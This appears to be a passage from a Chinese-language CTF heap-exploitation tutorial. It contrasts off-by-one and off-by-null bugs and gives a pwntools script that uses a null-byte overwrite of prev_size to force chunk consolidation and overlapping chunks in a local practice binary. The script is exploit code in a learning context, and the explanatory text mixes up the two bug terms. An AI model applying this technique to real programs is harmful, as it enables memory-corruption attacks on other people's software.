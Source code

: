 在这里我们已经明白了offbyone和offbynull的区别从这里我们就可以明白offbyone的利用会比offbynull更加简单可以可以溢出控制size的这个字段但是offbyone就只能控制一个**\x00**的一个位置因此offbynull的利用会更加的繁琐

但是在这里我们使用offbynull来进行实验

因此我们只用写一个**\x00**的模块就可以了

```py
from pwn import *

from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x200)
add_chunk(1, 0x18)
add_chunk(2, 0x1f0)
add_chunk(3, 0x10)

delete_chunk(0)
edit_chunk(1, b'a' * 0x10 + p64(0x230) + p8(0))#覆盖下一个chunk的程序以为上一个chunk是释放的但是并没有因此会出现unlik的操作
# gdb.attach(p)
delete_chunk(2)#free以后会进行一个合并
add_chunk(0,0x428)#申请回来再删除chunk1就可以控制chunk1了
delete_chunk(1)
gdb.attach(p)

p.interactive()
```
